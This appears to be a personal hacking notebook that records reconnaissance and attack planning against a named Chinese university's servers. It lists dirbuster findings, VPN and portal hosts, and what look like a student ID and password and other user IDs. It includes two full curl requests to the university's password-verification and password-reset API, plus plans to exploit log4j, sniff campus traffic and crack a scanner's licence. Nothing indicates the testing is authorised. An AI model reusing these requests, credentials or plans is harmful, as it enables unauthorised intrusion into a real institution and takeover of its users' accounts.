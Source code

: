 ```yaml
---
category: hacking
created: '2021-12-22T05:45:58.000Z'
date: '2023-12-22 23:52:59'
description: The article discusses hacking attempts on lixin.edu.cn and the use of
  tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes
  a HTTP request command for changing passwords on the server.
modified: '2022-08-18T16:04:01.502Z'
tags:
- freelancer
- hack
title: The Hack (Get password and tests)
---
```


# The Hack (Get password and tests)

dirbuster has found something over  "http://oa.lixin.edu.cn//test/"
+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)                              
+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)                           
+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)                               
+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)                         
+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)                           
+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)                            
+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)                          
+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)  

suspicious:
http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do


portal (even in the internet):
http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)
https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:
201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"password":"abcdefABC","userId":""}' \
  --compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
  --compressed
